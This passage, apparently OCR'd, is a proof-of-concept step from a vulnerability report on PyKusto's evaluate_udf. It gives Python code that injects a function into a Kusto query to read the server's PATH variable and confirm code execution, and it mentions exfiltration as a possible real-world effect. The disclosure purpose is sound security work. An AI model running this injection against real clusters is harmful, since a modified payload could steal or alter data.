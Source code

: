     4. **Execute `evaluate_udf` with Malicious Function:** Use PyKusto's `evaluate_udf` to execute a query with the `malicious_func`.
    ```python
    from pykusto import PyKustoClient, Query, column_generator as col, Functions as f, _KustoType

    # Assume 'client' is your PyKustoClient instance
    table = client.database("Samples").table("StormEvents")

    def malicious_func():
        import os
        return "INJECTED: " + os.environ.get("PATH", "FAILED_TO_GET_PATH")

    query_with_injection = Query(table).take(1) # Simple query to add the UDF to
    query_with_udf = query_with_injection.evaluate_udf(malicious_func, injected_code_result=_KustoType.STRING) # Capture output in 'injected_code_result' column

    df_with_injection = query_with_udf.to_dataframe()
    print(df_with_injection['injected_code_result']) # Check if 'INJECTED:' is in the output, indicating code execution
    ```
    5. **Verify Code Execution:** Examine the results of the query execution. If the function `malicious_func`'s code was executed, you should see the string "INJECTED: ..." in the output column `injected_code_result`. This confirms the code injection vulnerability. In a real attack scenario, a successful exploit would not be as easily visible in the output but could have side effects like data exfiltration or modification.